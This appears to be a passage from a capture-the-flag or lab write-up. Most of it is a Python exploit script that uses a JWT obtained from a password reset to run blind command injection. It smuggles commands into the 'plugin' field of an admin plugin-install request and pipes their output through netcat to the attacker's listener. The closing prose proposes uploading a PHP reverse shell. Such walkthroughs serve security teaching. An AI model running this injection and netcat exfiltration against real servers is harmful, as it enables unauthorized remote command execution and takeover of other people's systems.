 ```py

        return data['jwt']
        
    else:
        print("ERROR: Something went wrong")
        sys.exit(1)

print("-"*30+"\n")

##########
##########

# Run blind RCE
def run_cmd(jwt):

    headers = {
        "Authorization" : f"Bearer {jwt}"
        }

    print("-"*30+"\n")
    print("[+] Initializing terminal-like prompt")
    print("ATTENTION: wait untill you see the prompt to inject another command\n")

    while True:
        cmd_inj = input("\n$> ")

        print("[»] Trying to trigger blind RCE...\n")

        payload = {
            "plugin" : f"documentation && $({cmd_inj} | nc {my_ip} 1234)",
            "port" : "1337"
            }

        x = threading.Thread(target=rcv_output, daemon=True)
        x.start()
        req.post(f"{url}/admin/plugins/install", json = payload, headers = headers)
        x.join()

def rcv_output():
    system(f"timeout 1s nc -lnvp 1234 2> /dev/null")
    #Redirect netcat and timeout stderr to null in order to have a cleaner output

run_cmd(reset_psw())
```

Since this isn't a real shell but only a simple RCE, we still can't do much. However, we can now access the admin page using our new credentials and go to the Files Uploads page. We can now try to upload a PHP reverse shell in order to get a proper shell.
